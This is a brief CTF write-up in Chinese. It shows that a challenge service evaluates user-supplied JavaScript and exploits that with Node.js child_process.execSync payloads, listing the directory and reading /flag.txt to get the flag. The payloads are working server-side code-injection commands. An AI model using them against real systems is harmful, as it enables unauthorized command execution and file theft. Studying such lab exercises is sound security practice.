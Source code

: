 ![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1756994516843-e66d27d4-3c6b-46a2-bcb0-e67e5fc2c7d4.png)

可以执行 js 代码

构造如下，列出当前目录

```html
process.platform

require('child_process').execSync('ls').toString()
```

尝试获取 flag

```javascript
require('child_process').execSync('cat /flag.txt').toString()
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1756994999793-95b26fcb-b440-4ec3-a3f7-ec6105aac467.png)

得到 flag

